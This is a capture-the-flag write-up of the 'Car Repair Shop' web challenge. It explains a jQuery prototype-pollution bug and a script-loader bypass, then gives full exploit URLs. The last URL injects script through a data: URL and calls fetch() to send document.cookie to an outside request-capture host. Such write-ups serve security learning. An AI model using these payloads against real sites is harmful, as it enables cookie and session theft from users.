


Car Repair Shop
----
"Your Car broke down?! Come to our shop, we repair all cars! Even very old ones."

Examination Site
----
* JavaScript prototype chain pollution
* XSS

Analysis
----
Viewing the source code,we will found several key files
```html
<script src="assets/js/car.class.js"></script>
<script src="assets/js/util.js"></script>
<!-- <script src="assets/js/car.key.js"></script> -->
```
From car.class.js
```javascript
 powerOn() {
        if (this.isStarted()) {
            infobox(`Well Done!`)
            nextCar()

        } else {
            $('.chargeup')[0].play()
        }
    }

    repair() {
        if(urlParams.has('repair')) {
            $.extend(true, this, JSON.parse(urlParams.get('repair')))
        }
    }

    ignition() {
        if (this.key == "") {
            infobox(`Looks like the key got lost. No wonder the car is not starting ...`)
        }
        if (this.key == "??") {
            infobox(`The car started!`)
            this.start()
        }
    }
}
```
From the Car class, we know the process of repairing the car:
Repair()->powerOn()->ignition().In addition,we found the exploit:
*$.extend(true, this, JSON.parse(urlParams.get('repair')))*
It is easy to know that the exploit is "JavaScript Prototypein pollution".We can write the key through the prototype chain.


From car.class.js
```javascript
porsche.key = "??"
porsche.start()
```
This js file can get the porsche's key and let it start.We have to load it.

From util.js
```javascript

const urlParams = new URLSearchParams(window.location.search)
const h = location.hash.slice(1)
const bugatti = new Car('Bugatti', 'T35', 'green', 'assets/images/bugatti.png')
const porsche = new Car('Porsche', '911', 'yellow', 'assets/images/porsche.png')

const cars = [bugatti, porsche]

porsche.repair = () => {
    if(!bugatti.isStarted()){
        infobox(`Not so fast. Repair the other car first!`)
    }
    else if($.md5(porsche) == '9cdfb439c7876e703e307864c9167a15'){
        if(urlParams.has('help')) {
            repairWithHelper(urlParams.get('help'))
        }
    }
    else{
        infobox(`Repairing this is not that easy.`)
    }
}
porsche.ignition = () => {
    infobox(`Hmm ... WTF!`)
}

$(document).ready(() => {
    const [car] = cars
    $('.fa-power-off').click(() => car.powerOn())
    $('.fa-car').click(() => car.info())
    $('.fa-lightbulb-o').click(() => car.light())
    $('.fa-battery-quarter').click(() => car.battery())
    $('.fa-key').click(() => car.ignition())
    $('.fa-wrench').click(() => car.repair())
    
    $('.fa-step-forward').click(() => nextCar())

    if(h.includes('Bugatti'))
        autoStart(bugatti)
    if(h.includes('Porsche'))
        autoStart(porsche)
})


const nextCar = () => {
    cars.push(cars.shift())
    $(".image").attr('src', cars[0].pic);
}


const autoStart = (car) => {
    car.repair()
    car.ignition()
    car.powerOn()
}


const repairWithHelper = (src) => {
    /* who needs csp anyways !? */
    urlRegx = /^\w{4,5}:\/\/car-repair-shop\.fluxfingersforfuture\.fluxfingers\.net\/[\w\d]+\/.+\.js$/;
    if (urlRegx.test(src)) {
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}


const infobox = (text) => {
    $('a').css({'pointer-events': 'none', 'border': 'none'})
    $('.infobox').addClass('infoAnimate')
        .text(text)
        .on('animationend', function() {
            $(this).removeClass('infoAnimate')
            $('a').css({'pointer-events': 'all', 'border': 'solid 1px rgba(255, 255, 255, .25)'})
    })
```
It is the main js file.The initialized bugatti and porsche have no keys, we need to write, and then trigger the whole process through * autoStart()*.
In addition,we found *Porsche.repair()* will call *repairWithHelper()* which will load outside js file.Yeah!We will load *car.key.js* with it.
So,let's do it.

Exploit
----

 According to the analysis just,we can add key to bugatti and call its *autoStart()*.And then,we can call *repairWithHelper()* to load *car.key.js*.For $.md5,since it is encrypted from the lowest level of prototype.So we can pollute it prototype to change its MD5 value.
Finally,the payload:
```bash
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/js/car.key.js#BugattiPorsche
```
Two cars have keys and they have been repaired.


Howevers,there is nothing happen.Maybe this isn't the last step.We need to bypass *repairWithHelper()*  and XSS it,but I stopped here since I have no ideas.
By viewing master **WE_0WN_Y0U** writeup ,I make the payload:
```bash
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/javascript,alert(1)//.js#BugattiPorsche
```
And it work!


Now,we try to get the flag.We can use *fetch()* to send value to the website controlled by ourselves, such as **https://requestbin.com/** which can let us see what will be sent by *fetch()*
Finally,the payload like the following
```http
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/javascript,fetch("https://en3c2qcyr45h7.x.pipedream.net/"+document.cookie)//.js#BugattiPorsche
```
The flag is: **flag{brumm_brumm_brumm_brumm_brumm_brumm_brumm}**

